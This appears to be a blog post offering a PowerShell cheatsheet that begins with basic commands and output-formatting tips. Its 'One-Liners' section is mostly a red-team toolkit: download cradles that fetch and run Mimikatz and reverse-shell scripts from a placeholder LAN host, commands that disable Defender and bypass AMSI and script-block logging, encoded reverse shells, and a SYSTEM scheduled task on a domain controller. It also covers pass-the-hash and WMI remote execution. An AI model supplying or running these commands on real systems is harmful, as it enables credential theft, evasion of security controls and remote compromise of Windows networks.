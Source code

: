 ```yaml
---
author:
  name: "Piyush Verma"
date: 2021-10-29
linktitle: PowerShell Cheatsheet
type:
- post
- posts
title: PowerShell Cheatsheet
draft: false
toc: true
images:
tags:
  - PowerShell
  - cheatsheet
  - oneliner
  - redteam
weight: 10
---
```


This cheatsheet will continue to receive updates. 

## PowerShell (PS) 101 commands
---

Please note that all of the following commands are run from a PowerShell prompt.

Retrieve the PowerShell version
```powershell
 $PSVersionTable 
 ```

List help about a cmdlet in a readable format
```powershell 
Get-Help <cmdlet> | more
```

List cmdlets which contain the keyword 'service' in them
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Name -match "service"}
```
List available commands in the current PS session and their respective details which contain the keyword 'command' in them:
```powershell
Get-Command -CommandType All -ShowCommandInfo | ?{$_.Name -match "command"}
```

Wildcards can be used to match as well. 
```powershell
Get-Command -CommandType All | ?{$_.Name -match "serv*"}
```

Count the number of commands in the output 
```powershell
(Get-Command -CommandType All | ?{$_.Name -match "command"}).count
```

List all cmdlets with PKI as source
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Source -match "PKI"}
```

List available commands in a module by running
```powershell
Get-Command -Module <module name>
```

## Handy Tweaks
---

When you launch PowerShell session, it opens in the user's home directory by default. This behavior can be modified so that new PS sessions open in a custom directory. Here is how:

```powershell
# Check the value of $PROFILE variable.

PS C:\Windows\system32> $PROFILE
C:\Users\XXXXXXXXX\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1

# Create the .ps1 file returned from the $PROFILE variable

PS C:\Windows\system32> New-Item -Path $PROFILE -Type File -Force

# To set and change the default working directory, open the above 'Microsoft.PowerShell_profile.ps1' in ISE and add the following line with your desired path.

Set-location <Custom directory path>
```


## One-Liners
---

### Creating a firewall rule exception in Windows
```powershell
New-NetFirewallRule -DisplayName 'HTTP-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('80', '443')

New-NetFirewallRule -DisplayName '447-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('447')
```

### Download cradles
```powershell
# Option 1 - Using IEX (compatible with older versions of PS)

powershell iex (New-Object Net.WebClient).DownloadString("http://192.168.X.X/Invoke-MimikatzEX.ps1")

# Option 2 - Using IWR (works on current version of PS)

iwr -UseBasicparsing http://192.168.X.X/Invoke-PowerShellRev.ps1 | iex
```

### Creating a Credential object
```powershell
$SecPassword = ConvertTo-SecureString 'XXXXXXXXXXXX' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)

```

### Decode Base64
```powershell
$EncodedText = “VABoA....”

$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))

$DecodedText
```

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableIOAVProtection $true
```
### Encode reverse shell
```powershell
. .\Invoke-Encode.ps1

Invoke-Encode -DataToEncode .\Invoke-PowerShellTcpOneLine.ps1 -OutCommand

# Open a listener (nc) on one end and on another shell use: 

powershell -e <content of encodedcommand.txt>
```

### Reverse shell using a Batch file
```powershell
# Create reverse.bat file

$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://192.168.X.X/Invoke-PowerShellRev8080.ps1''))'
Out-File -Encoding Ascii -InputObject $Contents -FilePath C:\...\Tools\reverse8080.bat

# Call reverse.bat file

## Option 1
.rotten.exe * reverse.bat

## Option 2
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:<NTLMHASH> /run:C:\users\.....\desktop\reverse.bat"'
```

### Scheduled tasks
```powershell
schtasks /create /S dc.contoso.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.X.X/Invoke-PowerShellRev8080.ps1''')'"

schtasks /Run /S dc.contoso.local /TN "UserX"
```

### Invoke-WMIMethod - Command Execution (Reverse shell, etc.)
```powershell
Invoke-WmiMethod win32_process -ComputerName dc.contoso.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

### Chain powershell commands to Bypass SBLogging, then AMSIBypass and then get reverse shell
```powershell
powershell -c "iex (iwr -UseBasicParsing http://192.168.X.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/Invoke-PowerShellTcpEx.ps1)
```

### Check local admin access via Invoke-Command
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName (Get-Content ..\Output\computers.txt) 2>$null
```

### Over pass-the-hash
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:<NTLMHASH> /run:powershell.exe"'
```

## Playing with command output
---

### 1. Expand redacted output

You might notice that sometimes the output returned by PS commands is redacted with "...". This can be corrected by modifying the value of the PS variable - ```$FormatEnumerationLimit``` as follows.

``` powershell
$FormatEnumerationLimit = -1
```

### 2. Using 'more' command

Piping output of a command to ``` more ``` command makes it readable from the first line. This is equivalent to ``` less``` command in Linux/Unix.

``` powershell
Get-Process | more
```

### 3. Using -ExpandProperty

``` powershell
Get-CimClass -Namespace root/SecurityCenter2 -MethodName * | select -ExpandProperty CimClassMethods
```

### 4. Exporting output in a CSV format

Sometimes (more than we'd think) having the output in a CSV file is a blessing. Here is how it can be done using ```Export-CSV``` cmdlet.

``` powershell
Get-Date | Select-Object -Property DateTime, Day, DayOfWeek, DayOfYear | Export-Csv -Path .\DateTime.csv -NoTypeInformation
```
